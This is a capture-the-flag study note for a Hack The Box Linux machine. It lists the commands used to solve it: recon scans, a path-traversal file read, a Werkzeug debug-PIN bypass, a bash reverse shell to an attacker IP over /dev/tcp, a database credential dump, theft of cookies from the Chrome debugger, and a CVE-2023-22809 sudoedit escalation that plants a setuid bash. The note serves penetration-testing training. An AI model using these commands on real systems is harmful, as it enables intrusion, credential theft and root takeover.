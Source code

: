 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
  - [HTTP](HTTP.md) File Read Vulnerability via `/download?fn=...`
  - Flask Debug Mode Code Execution via Werkzeug PIN Bypass
  - Database Credential Extraction 🐍
  - Chrome Remote Debugging Cookie Stealing 🥸
  - [Sudoedit](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) via CVE-2023-22809 to escalate to root 🧨
- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP.md) (80)

---

[Tools](Tools)
- `nmap` 🛰️
- `feroxbuster` 🦡
- `curl` 🌐
- `Burp Suite` 🐞
- `sshpass` 🧑‍💻
- `mysql` 🐬
- `Chromium DevTools` 🔧
- `nc` 📞
- `Selenium` 🧪
- `pytest` 🔁
- `sudoedit` ✍️

---

### Commands to Solve Box

#### 🧭 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.203
nmap -p 22,80 -sCV 10.10.11.203
feroxbuster -u http://superpass.htb --dont-extract-links
```

#### 🪝 Initial Access (www-data)
- Exploit `/download?fn=../../../../etc/passwd` to confirm file read vuln.
- Leak Flask Debug PIN via [Werkzeug debug PIN generation](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution).
- Use leaked info to generate correct PIN and gain RCE via Flask console.
- Spawn reverse shell via `os.system('bash -c "bash -i >& /dev/tcp/10.10.14.X/443 0>&1"')`.

#### 📂 Escalation to User corum
- Read `/app/config_prod.json` and connect to DB using `mysql`.
- Extract corum’s password from DB and login via `sshpass`.

```bash
mysql -u superpassuser -p'dbpassword' superpass
```

#### 🧪 Shell as edwards
- Tunnel `localhost:5555` and `localhost:41829` using:
```bash
ssh -L 5555:localhost:5555 -L 41829:localhost:41829 corum@superpass.htb
```
- Access [Chrome Debugger](chrome://inspect) and steal cookies for edwards.
- Reuse cookie to extract password, login via `ssh`.

#### 🚨 Root Access
- Exploit [CVE-2023-22809](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) using `sudoedit` with `EDITOR='vim -- /app/venv/bin/activate'`.
- Inject:
```bash
cp /bin/bash /tmp/0xdf; chmod +s /tmp/0xdf
```
- Wait for cron/root login, then:
```bash
/tmp/0xdf -p
```

---

### ✅ Actions Learned From This Box
- 🧠 Deep understanding of Flask’s debug mode and Werkzeug PIN generation.
- 🐍 How Python virtual environments interact with `bashrc`.
- 🔎 Abuse of Chrome remote debugging via dev test pipelines.
- ⚠️ The power (and danger) of misconfigured `sudoedit` privileges.
- 🧬 Realistic dev-to-prod test integration flaws, great CI/CD misconfig example.
- 🎯 Tunneling techniques for local-only service access.

---

### References 📚
- 📖 [HackTricks: Flask Debug RCE](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution)
- 📖 [CVE-2023-22809 sudoedit Exploit](https://www.qualys.com/2023/01/30/cve-2023-22809/cve-2023-22809.txt)
- 🛠️ [Werkzeug Source for PIN Gen](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py)
- 🧪 [Selenium Chrome Debug Port Abuse](https://security.snyk.io/vuln/SNYK-PYTHON-SELENIUM-3187814)
- 🧠 [0xdf's Full Write-up](https://0xdf.gitlab.io/2023/08/05/htb-agile.html)

---

Let me know when you want the next one prepped like this! 💻🔥